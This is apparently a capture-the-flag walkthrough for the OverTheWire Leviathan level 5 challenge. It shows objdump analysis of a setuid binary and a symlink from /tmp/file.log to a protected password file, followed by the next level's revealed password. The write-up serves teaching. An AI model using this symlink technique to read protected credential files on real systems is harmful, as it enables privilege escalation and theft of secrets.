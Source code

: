 From using ls -la, the executable to work with is `leviathan5`. When executing `leviathan5`, the output looks like this:

```
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```

Since we do not know what the executable is doing, we can use objdump to get some idea on what its doing on the stack:
```
leviathan5@gibson:~$ objdump -T leviathan5 

leviathan5:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*  00000000 (GLIBC_2.34) __libc_start_main
00000000      DF *UND*  00000000 (GLIBC_2.1)  fclose
00000000      DF *UND*  00000000 (GLIBC_2.0)  getuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  unlink
00000000      DF *UND*  00000000 (GLIBC_2.0)  puts
00000000  w   D  *UND*  00000000  Base        __gmon_start__
00000000      DF *UND*  00000000 (GLIBC_2.0)  exit
00000000      DF *UND*  00000000 (GLIBC_2.0)  feof
00000000      DF *UND*  00000000 (GLIBC_2.1)  fopen
00000000      DF *UND*  00000000 (GLIBC_2.0)  putchar
00000000      DF *UND*  00000000 (GLIBC_2.0)  fgetc
00000000      DF *UND*  00000000 (GLIBC_2.0)  setuid
0804a004 g    DO .rodata        00000004  Base        _IO_stdin_used
```
Key findings from the output:

    - The program opens a file (`fopen`), reads from it (`fgetc`), outputs its content (`putchar`), and then deletes it (`unlink`).
    - It also retrieves the user's UID (`getuid`) and sets the UID (`setuid`).

Now, we have some basic idea on what the command is doing, so we create a dummy folderand try the command again:

```
leviathan5@gibson:~$ echo nihao > /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
nihao
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```

Pretty much what we had observed using `objdump`. 
Now, we have confirmed our suspicions and could try copying the password file into the tmp file and use that as a lever to get the password. 

However, copying the password file directly results in a permission denied error. To deal with this, we can create a symbolic link pointing to the password file from our temporary file:
```
leviathan5@gibson:~$ cp  /etc/leviathan_pass/leviathan6 /tmp/file.log
cp: cannot open '/etc/leviathan_pass/leviathan6' for reading: Permission denied
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ55XPVk2l
```

Looks like symlink works and now we got our password!

